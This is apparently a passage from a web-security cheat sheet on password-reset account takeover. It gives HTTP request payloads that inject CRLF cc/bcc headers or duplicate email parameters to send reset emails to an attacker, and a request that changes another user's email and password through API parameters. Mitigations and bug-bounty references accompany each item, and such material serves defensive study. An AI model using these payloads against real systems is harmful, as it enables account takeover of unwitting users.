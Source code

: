 ```

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dcc:attacker@mail.tld"
```
```
- Add attacker email as second parameter using bcc

```php
POST /resetPassword
[...]
email="victim@mail.tld%0a%0dbcc:attacker@mail.tld"
```
```
- Add attacker email as second parameter using ,

```php
POST /resetPassword
[...]
email="victim@mail.tld",email="attacker@mail.tld"
```
```
- Add attacker email as second parameter in json array

```php
POST /resetPassword
[...]
{"email":["victim@mail.tld","atracker@mail.tld"]}
```
```
- **Mitigation Steps**:
  - Properly parse and validate email parameters server-side.
  - Use prepared statements or parameterized queries to prevent injection attacks.
- **References**:
  - [[https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be|https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be]]
  - [[https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/|https://ninadmathpati.com/2019/08/17/how-i-was-able-to-earn-1000-with-just-10-minutes-of-bug-bounty/]]
  - [[https://twitter.com/HusseiN98D/status/1254888748216655872|https://twitter.com/HusseiN98D/status/1254888748216655872]]

## **Changing Email And Password of any User through API Parameters**

- Attackers can modify email and password parameters in API requests to change account credentials.

```php
POST /api/changepass
[...]
("form": {"email":"victim@email.tld","password":"12345678"})
```
```
- **Mitigation Steps**:
  - Ensure strict parameter validation and authentication checks.
  - Implement robust logging and monitoring to detect and respond to suspicious activities.
- **Reference**:
  - [[https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240|Full Account Takeover via API Parameter Manipulation]]

## **No Rate Limiting: Email Bombing**

- Lack of rate limiting on password reset requests can lead to email bombing, overwhelming the user with reset emails.
- **Mitigation Steps**:
  - Implement rate limiting based on IP address or user account.
```